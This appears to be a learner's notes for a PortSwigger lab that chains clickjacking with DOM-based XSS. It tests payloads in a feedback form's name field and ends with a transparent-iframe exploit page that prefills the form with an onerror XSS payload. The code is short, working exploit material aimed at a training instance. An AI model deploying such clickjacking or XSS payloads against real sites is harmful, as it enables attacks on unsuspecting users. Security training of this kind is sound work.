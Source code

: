 # Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS
# https://portswigger.net/web-security/learning-paths/clickjacking/clickjacking-combining-clickjacking-with-a-dom-xss-attack/clickjacking/lab-exploiting-to-trigger-dom-based-xss#

```bash
# Create a feedback

Name: name
Email: a@gmail.com
Subject: sub
Message: mes

# Response:

 Thank you for submitting feedback, name! 
```

```bash
name: <script> alert()</script>



 Thank you for submitting feedback, !

# Didn't make alert
```

```bash
name: <img src=0 onerror=alert()>

# Works!
```

```bash
# Check view source and you will see input names, we can use that names to fill the form onload.
# Deliver this payload to victim.
<style>
	iframe {
		position:relative;
		width:1000px;
		height:900px;
		opacity:0.000001;
		z-index:2;
	}
	
	div {
		position:absolute;
		top:815px;
		left:80px;
		z-index:1;
	}
</style>
<div>Click me</div>
<iframe src="https://0aaa00a1033bb65f801885d200bf00c1.web-security-academy.net/feedback?name=<img src=0 onerror=print()>&email=a@gmail.com&subject=a&message=a"></iframe>
```
